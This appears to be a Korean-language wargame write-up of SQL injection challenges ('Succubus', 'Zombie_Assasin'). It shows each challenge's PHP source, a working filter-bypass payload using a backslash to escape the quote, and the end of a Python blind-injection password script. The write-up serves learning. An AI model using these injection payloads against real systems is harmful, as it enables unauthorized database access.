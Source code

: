 ```python
                if chr(pw) != '_':
                    cash = chr(pw)
            else:
                cash_1 = chr(pw)
                result_pw += chr(pw)
                break
    print(f'{i+1} : {result_pw}')

print(result_pw.lower())
```
<br>

## Succubus
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
### exploit
id와 pw를 입력받지만 모두 **'** 를 필터링하기 때문에 '로 강제로 문자열을 닫아서 우회할 수 없다.<br>
하지만 그 외에는 별다른 필터링이 없기 때문에 취약한 부분이 있다.<br>
id에 \를 입력하면 id='\'이 되기에 두 번째 '가 이스케이프되어 뒤에 and pw='부분까지 문자열로 인식된다.<br>
이 때 pw에 다른 쿼리 값을 입력하면 조작할 수 있다.
```sql
select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'
-> select id from prob_succubus where id='\' and pw='or 1=1#'
payload = id=\&pw=or 1=1#
```
<br>

## Zombie_Assasin
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();
  $_GET['id'] = strrev(addslashes($_GET['id']));
  $_GET['pw'] = strrev(addslashes($_GET['pw']));
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```
**strrev:** 문자열을 거꾸로 변환한다.
### exploit
addslashes 후에 strrev 함수가 적용되기 때문에 이를 이용하여 Succubus 문제를 풀듯이 하면된다.
```sql
```